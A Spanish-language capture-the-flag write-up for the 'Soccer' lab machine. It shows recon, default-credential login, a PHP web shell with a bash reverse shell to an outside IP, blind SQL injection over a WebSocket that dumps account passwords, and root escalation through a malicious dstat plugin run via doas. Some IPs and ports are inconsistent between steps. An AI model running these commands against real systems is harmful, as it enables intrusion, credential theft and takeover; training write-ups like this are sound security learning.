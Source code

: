 # Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```
#gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socked, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

$python3 exploit.py

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

$ssh player@10.10.103.124

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

$ find -name doas 2>/dev/null l grep doas

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.

